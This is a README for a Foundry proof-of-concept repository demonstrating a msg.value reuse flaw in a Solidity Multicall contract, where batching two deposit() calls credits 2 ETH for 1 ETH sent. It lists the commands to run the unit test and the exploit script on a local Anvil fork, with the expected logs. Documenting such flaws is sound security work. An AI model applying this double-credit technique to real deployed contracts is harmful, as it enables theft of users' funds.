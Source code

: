 Overview:

This project demonstrates a msg.value reuse vulnerability in a Multicall implementation. By batching two deposit() calls in one multicall transaction with only 1 ETH, an attacker’s internal balance is credited with 2 ETH. The PoC includes both a unit test and a script to reproduce the exploit on a local fork.

Prerequisites:
Foundry toolchain installed (forge, anvil)
Git installed


Project Structure:

forge-poc-templates/
├── foundry.toml
├── lib/
│   └── forge-std/           # dependencies installed here
├── src/
│   └── base/
│       └── Multicall.sol    # your vulnerable contract
├── script/
│   └── RunExploit.s.sol     # your exploit script
├── test/
│   └── MulticallExploit1.t.sol  # your test PoC
└── README.md



Setup:

1.Clone this repo

  git clone https://github.com/rachelvictory9773/Multicall-PoC.git
 
  cd Multicall-PoC

2.Install dependencies
 forge install forge-std

 ___________________________________________

Running the PoC:

1. Unit Test PoC:
   
Runs a Foundry unit test demonstrating the exploit assertions.

forge test --match-path test/MulticallExploit1.t.sol -vv

Expected output:

[⠆] Compiling...
No files changed, compilation skipped

Ran 1 test for test/MulticallExploit1.t.sol:MulticallExploitTest
[PASS] testMsgValueReuseAttack() (gas: 66731)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 21.94ms (4.75ms CPU time)

Ran 1 test suite in 195.86ms (21.94ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
_______________________________________________
2. Script PoC:
   
 Runs a Forge script on a local Anvil fork, printing console logs of each step.

  1.Start a local fork with Anvil:
  
   anvil
    
  2.In a new terminal, run the exploit script:
  
   forge script script/RunExploit.s.sol --tc RunExploit --fork-url http://127.0.0.1:8545

// the anvil what we started is Listening on 127.0.0.1:8545
// so in forge test for script/RunExploit.s.sol we used fork url as 127.0.0.1:8545

Expected output:

[⠊] Compiling...
No files changed, compilation skipped
Warning: Detected artifacts built from source files that no longer exist. Run `forge clean` to make sure builds are in sync with project files.
 - /home/ubuntu/forge-poc-templates/test/MulticallExploit.t.sol
Script ran successfully.

== Logs ==
  === Exploit PoC Start ===
  Attacker address: 0x7E5F4552091A69125d5DfCb7b8C2659029395Bdf
  Attacker initial ETH balance: 1000000000000000000
  Vault deployed at: 0x5aAdFB43eF8dAF45DD80F4676345b7676f1D70e3
  Vault recorded attacker balance: 2000000000000000000
  Attacker final ETH balance: 2000000000000000000
  === Exploit PoC End ===


Notes:
No --broadcast flag is used; all executions run in simulation mode on a local fork.

Both the unit test and script PoC demonstrate the same vulnerability.

Ensure solc_version in foundry.toml is set to 0.8.13 to match the contract code.
